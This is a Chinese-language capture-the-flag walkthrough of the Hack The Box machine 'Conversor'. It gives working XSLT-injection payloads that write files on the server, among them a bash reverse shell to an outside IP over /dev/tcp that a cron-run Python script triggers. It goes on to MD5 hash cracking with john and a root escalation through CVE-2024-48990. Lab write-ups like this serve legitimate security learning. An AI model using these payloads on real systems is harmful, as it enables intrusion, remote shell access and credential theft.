# Conversor #
## nmap探测 ##
#### `nmap -sT --min-rate 10000 -p- 10.10.11.92`


#### 详细探测 `nmap -sT -sV -O -A -p 22,80 10.10.11.92 -oA nmap/detail`


#### 绑定hosts `echo 10.10.11.92  conversor.htb >> /etc/hosts`
#### 浏览器访问


#### 注册登录


#### 根据描述是一个转换xml根式文件的应用，用提供的模板和端口探测的xml文件进行测试


#### 在about页面中找到了源码下载


#### 下载之后 `tar -xvf source_code.tar.gz`解压，可以看到整个目录结构和源码


## XSLT注入
#### 一开始尝试了XXE，进行文件读取和SSRF都失败了，原因是 `resolve_entities=False`表示禁用了外部实体解析


#### 使用XSLT注入非.xml格式的文件都读取不了，上传一个xml文件中进行读取/etc/passwd，再上传xslt文件进行二次读取也行不通，原因同上
#### 1.xml
```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE creds [
<!ENTITY aaaa SYSTEM "file:///etc/passwd"> ]>
<creds>&aaaa;</creds>
```
#### 2.xslt
```
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:copy-of select="document('file:///var/www/conversor.htb/uploads/1.xml')"/>
  </xsl:template>
</xsl:stylesheet>
```
#### 文件路径是从install.md文件中发现的


#### 由于no_network=True阻止了外部实体所以SSRF也不行

#### 然后经过查找发现xslt也可以写文件
```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common" 
  extension-element-prefixes="exploit"
  version="1.0">
  <xsl:template match="/">
    <exploit:document href="evil.txt" method="text">
      Hello World!
    </exploit:document>
  </xsl:template>
</xsl:stylesheet>
```
#### 根据install.md中的描述，每隔一分钟都会执行scripts下的py文件


#### 在构造payload的时候先尝试了直接写py文件反弹shell失败了，绕了个弯
#### a.xslt
```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common"
  extension-element-prefixes="exploit"
  version="1.0">
<xsl:template match="/">
<exploit:document href="/var/www/conversor.htb/static/a.sh" method="text">
#!/bin/bash
/bin/bash -i >&amp; /dev/tcp/10.10.16.43/9527 0>&amp;1
</exploit:document>
</xsl:template>
</xsl:stylesheet>
``` 
#### 注意&要替换成`&amp;`，因为&在xslt中表示的是引用符号
#### b.xslt
```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common"
  extension-element-prefixes="exploit"
  version="1.0">
<xsl:template match="/">
<exploit:document href="/var/www/conversor.htb/scripts/b.py" method="text">
import os;os.system("/bin/bash /var/www/conversor.htb/static/a.sh")
</exploit:document>
</xsl:template>
</xsl:stylesheet>
```
#### 写入的内容一定要顶格写，前面不能有空格，不然python脚本无法执行
#### 上传a.xslt之后可以看到在static目录写入成功了


#### 开启监听，上传b.xslt，等一分钟左右就能看到回连


#### 根据目录结构在instance目录下发现数据库文件




#### hash破解 `john users.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5`


#### 使用fismathach登录ssh成功


## 提权




#### 网上查找到了[CVE-2024-48990](https://github.com/pentestfunctions/CVE-2024-48990-PoC-Testing?tab=readme-ov-file)漏洞

#### 目标机上没有安装gcc所以需要将脚本拆分，在本地编译lib.c之后再传到目标机上，执行完后等一下就会自动提权到root
